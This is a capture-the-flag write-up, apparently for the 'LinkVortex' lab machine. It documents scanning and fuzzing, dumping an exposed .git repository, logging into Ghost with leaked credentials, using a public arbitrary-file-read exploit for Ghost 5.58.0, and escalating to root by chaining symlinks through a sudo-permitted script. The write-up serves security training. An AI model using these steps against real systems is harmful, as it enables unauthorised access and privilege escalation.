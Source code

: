 # Link Vortex

# Enumeration

## Nmap Scan

```bash
rustscan -a 10.10.11.47 -- -A -oN
```

```bash
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMHm4UQPajtDjitK8Adg02NRYua67JghmS5m3E+yMq2gwZZJQ/3sIDezw2DVl9trh0gUedrzkqAAG1IMi17G/HA=
|   256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKKLjX3ghPjmmBL2iV1RCQV9QELEU+NF06nbXTqqj4dz

80/tcp open  http    syn-ack ttl 63 Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache

```

## SSH(22)

- Password Authentication is enabled

```bash
└─$ ssh root@linkvortex.htb 
The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
root@linkvortex.htb's password: 

```

## HTTP(80)

### Dirsearch

```bash
dirsearch -u http://linkvortex.htb -x 404
```

```bash
[23:26:29] 301 -  179B  - /assets  ->  /assets/                             
[23:26:30] 301 -    0B  - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp/    
[23:26:30] 301 -    0B  - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp/
[23:26:30] 301 -    0B  - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp/
[23:26:34] 301 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js/
[23:26:41] 301 -    0B  - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf/
[23:26:41] 301 -    0B  - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf/
[23:26:42] 301 -    0B  - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf/
[23:26:42] 200 -   15KB - /favicon.ico                                      
[23:26:45] 301 -    0B  - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf/
[23:26:49] 200 -    1KB - /LICENSE                                          
[23:27:02] 200 -  103B  - /robots.txt                                       
[23:27:03] 403 -  199B  - /server-status                                    
[23:27:03] 403 -  199B  - /server-status/                                   
[23:27:04] 200 -  259B  - /sitemap.xml 
```

### Vhost Fuzzing

There is only one subdomain.

```bash
ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -c -fs 230
```

```bash
dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 27ms]
```

### Dirsearch on dev.linkvortex.htb

```bash
dirsearch -u http://dev.linkvortex.htb -x 404
```

```bash
[23:32:59] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/        
[23:32:59] 200 -  201B  - /.git/config                                      
[23:32:59] 200 -  402B  - /.git/info/                                       
[23:32:59] 200 -  240B  - /.git/info/exclude
[23:33:00] 200 -  557B  - /.git/                                            
[23:33:00] 200 -  401B  - /.git/logs/                                       
[23:33:00] 200 -  175B  - /.git/logs/HEAD
[23:33:00] 200 -   73B  - /.git/description                                 
[23:33:00] 200 -  620B  - /.git/hooks/                                      
[23:33:01] 200 -  418B  - /.git/objects/                                    
[23:33:01] 200 -   41B  - /.git/HEAD                                        
[23:33:01] 200 -  393B  - /.git/refs/                                       
[23:33:01] 200 -  147B  - /.git/packed-refs                                 
[23:33:01] 301 -  249B  - /.git/refs/tags  ->  http://dev.linkvortex.htb/.git/refs/tags/
[23:33:46] 200 -  691KB - /.git/index

```

### Website Features

- We download the git files.

```bash

wget --mirror -I .git http://dev.linkvortex.htb/.git/
git status
git restore .
git show <commit-id>
git diff <commit-id> "celui du head"
```

- Ghost Credentials

```bash
EMAIL : admin@linkvortex.htb
PASSWORD : OctopiFociPilfer45
```

![image.png](image.png)

### Arbitrary File Read on Ghost 5.58.0

- POC https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028

![image.png](image%201.png)

- We read the content of this file

```bash
/var/www/ghost/config.production.json
```

![image.png](image%202.png)

# Post Exploitation

## Shell as Bob

- Bob’s Credentials

```bash
USERNAME : bob
PASSWORD : fibber-talented-worth
```

![image.png](image%203.png)

## Shell as root

- Sudo permissions

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

- Privilege Escalation

```bash
ln -s /root/root.txt /home/bob/test.txt
ln -s /home/bob/test.txt /home/bob/test.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png
```

![image.png](image%204.png)